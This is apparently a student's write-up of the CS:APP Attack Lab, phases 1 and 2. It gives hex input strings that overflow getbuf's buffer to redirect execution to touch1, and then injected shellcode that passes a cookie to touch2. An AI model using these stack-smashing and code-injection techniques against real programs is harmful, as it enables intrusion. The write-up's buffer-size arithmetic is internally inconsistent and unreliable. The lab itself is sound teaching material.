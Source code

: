 # Attack Lab

> This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

Before starting the lab, read [Writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) & CSAPP 3.10.3, 3.10.4 carefully.

## Code Injection Attack

### Phase 1

> Same as textbook.

```c
char *Gets(char *s) {
    int c;
    char *dest = s;
    while ((c = getchar()) != '\n' && c != EOF) {
        *dest++ = c;
    }
    if (c == EOF && dest == s)
        // No characters read
        return NULL;
    *dest++ = '\0'; // termination string
    return s;
}

unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

// getbuf is called by test
void test() {
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

// our target
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

What we need to do is to inject a return the address of `touch1()` to `getbuf()`.

In our case, gcc allocated `0x24` bytes for `getbuf()` - 40 bytes.
That is: if input is less than 23 bytes (stack saved 16 bytes, '\0' 1 byte), it will work well.
But if input is more than 23 bytes, it will cause buffer overflow.

We need to inject a return address to `getbuf()` via buffer overflow.
The address is `0x00000000004017c0`.

So, the answer is:

```bash
# we donot care about the low 40 bytes
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
c0 17 40 00 00 00 00 00 # little endian
```

### Phase 2

```c
void touch2(unsigned val) { // passed in %rdi
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

What we need to do is to inject code segment that store *cookie* to `%rdi`, and then call `touch2()`.
The only way to inject our code is to add our code segment to the string, make the string run as code.

The return address as above, should be our code segment's address.

```x86_64
0:	68 ec 17 40 00       	push   $0x4017ec
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
c:	c3                   	ret
```

After `getbuf()` pushing stack, the `%rsp` is `0x5561dc78`. The first address of our code segment is
`0x5561dc78`, too.

So, the answer is:

```bash
68 ec 17 40 00 48 c7 c7 # code segment address, the dump code already little endian
fa 97 b9 59 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # the address of our code segment
```
